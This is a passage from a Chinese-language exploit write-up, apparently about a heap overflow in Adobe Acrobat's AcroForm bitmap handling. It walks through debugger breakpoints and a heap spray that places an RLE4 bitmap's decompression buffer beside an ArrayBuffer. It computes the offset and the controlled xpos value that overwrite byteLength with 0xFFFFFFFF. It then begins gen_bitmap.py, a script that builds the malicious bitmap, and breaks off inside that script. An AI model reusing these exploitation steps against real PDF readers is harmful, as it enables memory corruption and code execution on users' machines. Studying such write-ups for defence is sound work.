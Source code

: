 然后断点

```
bp 0x54bcc8+AcroForm_base
```

call调用的是fn_get_scanline函数，返回的是一个堆地址

[![](https://p2.ssl.qhimg.com/t0162f175c84f9d2973.png)](https://p2.ssl.qhimg.com/t0162f175c84f9d2973.png)

我们查看这个堆的头部以及附近的内容，可以发现其前方0x144处，正是ArrayBuffer的byteLength变量，可见这里，我们堆喷成功，bitmap的解压缩数据堆成功申请到hole里

[![](https://p3.ssl.qhimg.com/t011f60bcb8f5f89d29.png)](https://p3.ssl.qhimg.com/t011f60bcb8f5f89d29.png)

此时我们bitmap的WIDTH = 0x278，HEIGHT = 1，该bitmap的数据解压区正好申请到hole里。<br>
并且通过调试，我们确定了溢出的距离为`-0x144`，无符号数也就是`0xfffffebc`,即bye_slot应该为0xfffffebc

[![](https://p5.ssl.qhimg.com/t012b532259a5d8beda.png)](https://p5.ssl.qhimg.com/t012b532259a5d8beda.png)

由于这里xpos** &gt;&gt; 1是一个有符号数的运算，因此xpos**的值应该为`0xfffffd78`

```
#include &lt;stdio.h&gt;
#include &lt;iostream&gt;

using namespace std;

int main() `{`
    int a = 0xfffffebc;
    cout &lt;&lt; hex &lt;&lt; (a &lt;&lt; 1) &lt;&lt; endl;
`}`
```

而xpos是可以控制的

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01c19e4a3df315f052.png)

于是，我们可以向-0x144的位置写上4字节0xFF，使得ArrayBuffer的byteLength为0xFFFFFFFF

gen_bitmap.py

```
#-*- coding:utf-8 -*-
import os
import sys
import struct

RLE8 = 1
RLE4 = 2
COMPRESSION = RLE4
BIT_COUNT = 4
CLR_USED = 1 &lt;&lt; BIT_COUNT
WIDTH = 0x278
HEIGHT = 1

def get_bitmap_file_header(file_size, bits_offset):
    return struct.pack('&lt;2sIHHI', 'BM', file_size, 0, 0, bits_offset)

def get_bitmap_info_header(data_size):
    return struct.pack('&lt;IIIHHIIIIII',
        0x00000028,
        WIDTH,
        HEIGHT,
        0x0001,
        BIT_COUNT,
        COMPRESSION,
```